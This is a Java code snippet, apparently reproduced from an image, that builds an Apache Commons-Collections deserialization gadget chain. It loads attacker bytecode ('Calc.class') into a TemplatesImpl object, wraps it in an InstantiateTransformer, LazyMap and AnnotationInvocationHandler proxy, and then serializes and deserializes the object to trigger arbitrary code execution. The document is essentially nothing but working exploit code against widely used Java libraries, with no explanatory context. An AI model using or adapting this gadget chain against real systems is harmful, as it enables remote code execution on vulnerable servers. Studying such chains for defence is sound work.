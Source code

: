 ```java=
    {  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //    templates.newTransformer();  
  
 InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},  
 new Object[]{templates});  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(TrAXFilter.class), // 构造 setValue 的可控参数  
 instantiateTransformer  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);  
  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 declaredConstructor.setAccessible(true);  
 InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);  
  
 Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()  
                , new Class[]{Map.class}, invocationHandler);  
 Object o = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);  
  
 serialize(o);  
 unserialize("ser.bin");  
 }  
  
    public static void serialize(Object obj) throws IOException {  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));  
 oos.writeObject(obj);  
 }  
  
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {  
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));  
 Object obj = ois.readObject();  
 return obj;  
 }  
}
```
